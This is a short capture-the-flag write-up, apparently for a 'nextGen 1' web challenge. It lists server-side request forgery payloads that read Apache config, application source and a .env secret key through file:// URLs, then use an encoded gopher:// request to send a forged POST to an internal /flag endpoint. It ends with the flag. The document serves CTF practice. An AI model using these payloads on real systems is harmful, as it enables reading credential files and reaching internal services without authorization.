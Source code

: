 # nextGen 1

## Write-up (brief)

- service=file:///etc/apache2/sites-enabled/000-default.conf
- service=file:///var/www/secret-service/app.wsgi
- service=file:///var/www/secret-service/app.py
- service=file:///var/www/secret-service/.env --> SECRET_KEY=b7bb70a3b3c95f570a8d31ece41bf7c5
- service=gopher://localhost:5000//POST%2520%252Fflag%2520HTTP%252F1.1%250AContent-Type%253A%2520application%252Fjson%250AContent-Length%253A%252046%250A%250A%257B%2522secret%2522%253A%2522b7bb70a3b3c95f570a8d31ece41bf7c5%2522%257D%250A


## Flag

`shellmates{go_go_go_GoOOOPHER}`
